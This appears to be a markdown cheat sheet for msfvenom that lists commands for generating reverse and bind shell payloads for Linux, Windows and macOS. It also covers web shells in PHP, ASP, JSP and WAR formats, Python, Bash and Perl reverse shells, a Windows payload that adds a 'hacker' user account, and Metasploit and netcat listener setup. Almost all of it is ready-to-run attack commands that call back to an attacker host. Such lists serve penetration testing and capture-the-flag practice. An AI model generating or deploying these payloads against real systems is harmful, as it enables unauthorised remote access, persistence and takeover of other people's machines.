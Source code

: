 ```yaml
---
title:  "Msfvenom Payload Cheat Sheet"
header: "Msfvenom Payload Cheat Sheet"
categories: 
  - Cheatsheet
tags:
  - Msfvenom
---
```


Msfvenom (replaced the former msfpayload and msfencode tools) and is a tool that can be used to generate payloads as standaline files and encode them if needed. Everybody likes shells, right?

# Usage  
***

Insert picture here

# Basic Commands  
***
#### List available payloads  
`msfvenom -l`

#### Encoding Payloads  
`msfvenom -p <PAYLOAD> -e <ENCODER> -f <FORMAT> -i <ENCODE COUNT> LHOST=<IP>`

# Handler Setup  
***
#### Meterpreter  
`msfconsole -q`
`use exploit/multi/handler`
`set PAYLOAD <PAYLOAD>`
`set LHOST <IP>`
`set LPORT <IP>`
`set ExitOnSession false`
`exploit -j -z`

#### Netcat  
`nc -nlvp <PORT>

# Linux  
***
#### Reverse Shell  
`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell.elf`

#### Bind Shell  
`msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=<IP> LPORT=<PORT> -f elf > shell.elf`

# Windows  
***
#### Reverse Shell  
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell.exe`

#### Bind Shell  
`msfvenom -p windows/meterpreter/bind_tcp RHOST= <IP> LPORT=<PORT> -f exe > shell.exe`

#### CMD Shell  
`msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell.exe`

#### User Creation  
`msfvenom -p windows/adduser USER=hacker PASS=password -f exe > useradd.exe`

# Mac  
***
#### Reverse Shell  
`msfvenom -p osx/x86/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f macho > shell.macho`

#### Bind Shell  
`msfvenom -p osx/x86/shell_bind_tcp RHOST=<IP> LPORT=<PORT> -f macho > shell.macho`

# Web Payloads  
***
#### PHP  
`msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.php`  
`cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php`

#### ASP  
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp > shell.asp`

#### JSP  
`msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.jsp`

#### WAR  
`msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war`

# Scripting Payloads  
***
#### Python  
`msfvenom -p cmd/unix/reverse_python LHOST=<IP> LPORT=<PORT> -f raw > shell.py`

#### Bash  
`msfvenom -p cmd/unix/reverse_bash LHOST=<IP> LPORT=<PORT> -f raw > shell.sh`

#### Perl  
`msfvenom -p cmd/unix/reverse_perl LHOST=<IP> LPORT=<PORT> -f raw > shell.pl`
